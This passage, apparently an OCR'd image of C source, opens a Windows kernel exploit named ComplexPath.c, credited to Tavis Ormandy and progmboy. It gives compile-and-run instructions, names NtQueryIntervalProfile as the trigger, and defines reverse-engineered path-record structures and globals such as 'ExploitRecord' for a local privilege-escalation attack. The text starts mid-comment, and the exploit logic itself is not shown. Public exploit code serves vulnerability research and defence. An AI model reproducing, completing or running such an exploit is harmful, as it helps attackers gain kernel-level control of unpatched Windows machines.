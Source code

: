 // NtQueryIntervalProfile matches this requirement perfectly.
//
// INSTRUCTIONS
//
// C:\&gt; cl ComplexPath.c
// C:\&gt; ComplexPath
//
// You might need to run it several times before we get the allocation we need,
// it won't crash if it doesn't work, so you can keep trying. I'm not sure how
// to improve that.
//
// CREDIT
//
// Tavis Ormandy &lt;taviso () cmpxchg8b com&gt;
// progmboy &lt;programmeboy () gmail com&gt;
//

POINT       Points[MAX_POLYPOINTS];
BYTE        PointTypes[MAX_POLYPOINTS];
HRGN        Regions[MAX_REGIONS];
ULONG       NumRegion = 0;
HANDLE      Mutex;
DWORD       Finished = 0;

// Log levels.
typedef enum { L_DEBUG, L_INFO, L_WARN, L_ERROR } LEVEL, *PLEVEL;

BOOL LogMessage(LEVEL Level, PCHAR Format, ...);

// Copied from winddi.h from the DDK
#define PD_BEGINSUBPATH   0x00000001
#define PD_ENDSUBPATH     0x00000002
#define PD_RESETSTYLE     0x00000004
#define PD_CLOSEFIGURE    0x00000008
#define PD_BEZIERS        0x00000010

typedef struct  _POINTFIX
{
    ULONG x;
    ULONG y;
} POINTFIX, *PPOINTFIX;

// Approximated from reverse engineering.
typedef struct _PATHRECORD {
    struct _PATHRECORD *next;
    struct _PATHRECORD *prev;
    ULONG               flags;
    ULONG               count;
    POINTFIX            points[4];
} PATHRECORD, *PPATHRECORD;

PPATHRECORD PathRecord;
PATHRECORD  ExploitRecord;
PPATHRECORD ExploitRecordExit;
